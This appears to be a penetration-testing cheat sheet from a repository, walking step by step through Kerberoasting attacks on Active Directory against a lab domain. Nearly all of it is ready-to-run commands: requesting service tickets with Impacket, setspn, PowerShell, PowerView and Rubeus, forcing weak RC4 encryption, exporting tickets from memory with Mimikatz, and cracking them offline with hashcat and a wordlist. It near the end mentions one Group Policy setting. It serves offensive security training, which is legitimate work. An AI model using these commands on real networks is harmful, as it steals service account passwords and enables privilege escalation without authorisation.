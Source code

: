 - [Kerberoasting](#kerberoasting)
- [Kerberoasting - from Linux](#kerberoasting---from-linux)
- [Kerberoasting - from Windows](#kerberoasting---from-windows)
        - [Kerberoasting - Semi Manual method](#kerberoasting---from-windows)
        - [Automated / Tool Based Route](#automated--tool-based-route)

## Kerberoasting
- **Overview**
    - Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments.
    - This attack targets Service Principal Names (SPN) accounts. 
    - SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.
    - All you need to perform a Kerberoasting attack is an account's cleartext password (or NTLM hash), a shell in the context of a domain user account, or SYSTEM level access on a domain-joined host.

- Depending on your position in a network, this attack can be performed in multiple ways:

    - From a non-domain joined Linux host using valid domain user credentials.
    - From a domain-joined Linux host as root after retrieving the keytab file.
    - From a domain-joined Windows host authenticated as a domain user.
    - From a domain-joined Windows host with a shell in the context of a domain account.
    - As SYSTEM on a domain-joined Windows host.
    - From a non-domain joined Windows host using runas /netonly.



> [!NOTE]
> A prerequisite to perform Kerberoasting attacks is either domain user credentials (cleartext or just an NTLM hash if using Impacket), a shell in the context of a domain user, or account such as SYSTEM. Once we have this level of access, we can start. We must also know which host in the domain is a Domain Controller so we can query it.

### Kerberoasting - from Linux
#### Kerberoasting with GetUserSPNs.py
- We can start by just gathering a listing of SPNs in the domain. To do this, we will need a set of valid domain credentials and the IP address of a Domain Controller. We can authenticate to the Domain Controller with a cleartext password, NT password hash, or even a Kerberos ticket.

```bash
# Listing SPN Accounts with GetUserSPNs.py
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

```

- We can now pull all TGS tickets for offline processing using the `-request` flag.

```bash
# Requesting all TGS Tickets
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

# Requesting a Single TGS ticket
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev

# -outputfile flag to write the TGS tickets to a file


# Cracking the ticket offline with hashcat
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

### Kerberoasting - from Windows
#### Kerberoasting - Semi Manual method

```bat
# Enumerating SPNs with built-in setspn.exe
C:\htb> setspn.exe -Q */*

```

- Using PowerShell, we can request TGS tickets for an account and load them into memory. Once they are loaded into memory, we can extract them using Mimikatz.

```powershell
# Targeting a Single User
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

```

- **Explanation**
    - The `Add-Type` cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
    - The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
    - `System.IdentityModel` is a namespace that contains different classes for building security token services
    - We'll then use the `New-Object` cmdlet to create an instance of a .NET Framework object
    - We'll use the `System.IdentityModel.Tokens` namespace with the `KerberosRequestorSecurityToken` class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session


- We can also choose to retrieve all tickets using the same method, but this will also pull all computer accounts, so it is not optimal.

```powershell
# Retrieving All Tickets Using setspn.exe
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }


```
- Now that the tickets are loaded, we can use Mimikatz to extract the ticket(s) from memory.

```bat 
# Extracting Tickets from Memory with Mimikatz
mimikatz # base64 /out:true

mimikatz # kerberos::list /export  

```

- If we do not specify the `base64 /out:true` command, Mimikatz will extract the tickets and write them to `.kirbi` files. Depending on our position on the network and if we can easily move files to our attack host, this can be easier when we go to crack the tickets. 

```bash
# Preparing the Base64 Blob for Cracking
echo "<base64 blob>" |  tr -d \\n 


# Placing the Output into a File as .kirbi
cat encoded_file | base64 -d > sqldev.kirbi

# Extracting the Kerberos Ticket using kirbi2john.py
kirbi2john.py sqldev.kirbi

# Modifiying resulted crack_file for Hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

# Cracking the Hash with Hashcat
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 



```

- We can place the above single line of output into a file and convert it back to a `.kirbi` file using the base64 utility.

#### Automated / Tool Based Route
```powershell
# Using PowerView to Extract TGS Tickets
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname

# Using PowerView to Target a Specific User
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Exporting All Tickets to a CSV File
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation



# Using Rubeus
# Using the /stats Flag
PS C:\htb> .\Rubeus.exe kerberoast /stats

# Request tickets for accounts with the admincount attribute set to 1. Using the /nowrap Flag
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

# Using /tgtdeleg flag
PS C:\htb> .\Rubeus.exe kerberoast /tgtdeleg /user:forend /nowrap
```

- To avoid retrieve `AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96`, we can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket.
- The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility.

> [!NOTE]
> This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account.

- It is possible to edit the encryption types used by Kerberos. This can be done by opening Group Policy, editing the Default Domain Policy, and choosing: `Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options`, then double-clicking on `Network security: Configure encryption types allowed for Kerberos` and selecting the desired encryption type allowed for Kerberos

